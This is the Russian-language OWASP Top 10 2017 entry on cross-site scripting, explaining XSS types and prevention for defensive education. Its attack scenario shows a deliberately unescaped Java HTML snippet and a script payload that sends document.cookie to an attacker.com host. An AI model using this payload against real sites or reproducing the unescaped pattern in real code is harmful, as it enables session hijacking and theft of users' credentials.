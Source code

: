 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например, кража учетных данных, перехват сессий или установка вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

* __Отраженное XSS__: Приложение или API включает непроверенные и неэкранированные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например, используя атаку типа "водопой" или рекламу.
* __Межсайтовое выполнение хранимых сценариев__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
* __XSS на основе объектной модели документа (DOM)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе DOM. В идеале, приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены DOM-узлов (напр., троянские панели входа в систему), а также атак на браузеры, например, для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

* Использовать фреймворки с автоматическим экранированием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
* Экранировать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) содержит подробные инструкции по экранированию данных.
* Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе DOM. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе DOM"](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)).
* Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или экранирования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

* [Проактивная защита OWASP: Кодирование данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Проактивная защита OWASP: Проверка данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Стандарт подтверждения безопасности приложений OWASP: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Памятка OWASP: Предотвращение XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Памятка OWASP: Предотвращение XSS на основе DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Памятка OWASP: Обход фильтра XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [Проект кодировщика Java от OWASP](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Сторонние

* [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
